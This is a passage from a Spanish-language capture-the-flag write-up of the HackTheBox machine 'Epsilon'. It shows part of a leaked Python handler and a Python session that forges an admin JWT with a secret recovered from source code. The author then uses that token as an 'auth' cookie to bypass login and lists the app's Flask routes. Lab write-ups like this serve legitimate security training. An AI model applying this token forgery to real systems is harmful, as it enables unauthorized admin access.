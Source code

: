 ```null
            return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
    except:
        return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }

```

Suponiendo que el secreto se reutiliza para el JWT, genero una cookie con ese valor

```null
python3
Python 3.11.2 (main, Mar 13 2023, 12:18:29) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> jwt.encode({'username': 'admin'}, "RrXCv`mrNe!K!4+5`wYq", algorithm="HS256")
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.WFYEm2-bZZxe2qpoAtRPBaoNekx-oOwueA80zzb3Rc4'
```

Agrego la cookie en el navegador con nombre ```auth```, tal y como ponía en el código fuente

<img src="/writeups/assets/img/Epsilon-htb/2.png" alt="">

Al recargar, ya puedo dirigirme al directorio ```/home``` sin problema. Tengo las siguientes rutas para moverme

```null
cat server.py | grep app.rout
@app.route("/", methods=["GET","POST"])
@app.route("/home")
@app.route("/track",methods=["GET","POST"])
@app.route('/order',methods=["GET","POST"])
```

Genero un ```order``` de prueba

<img src="/writeups/assets/img/Epsilon-htb/3.png" alt="">

